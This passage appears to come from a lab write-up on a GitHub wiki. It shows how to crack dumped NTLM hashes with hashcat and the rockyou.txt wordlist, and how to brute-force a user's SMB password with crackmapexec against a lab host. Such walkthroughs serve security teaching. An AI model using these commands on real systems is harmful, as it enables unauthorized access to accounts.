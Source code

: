 ![hashes](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img4.jpeg?raw=true)

After getting the hashes you can save them in a file called `hashes.txt` and use the following command:

```bash
hashcat -m 1000 hashes.txt rockyou.txt
```

For this laboratory we used `crackmapexec` directly with the `rockyou.txt` dictionary of passwords to obtain jack's password. The dictionary can be found online.

```bash
crackmapexec smb 10.80.0.2 -u jack -P /usr/share/wordlists/rockyou.txt
```

![crack password](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img1.jpeg?raw=true)
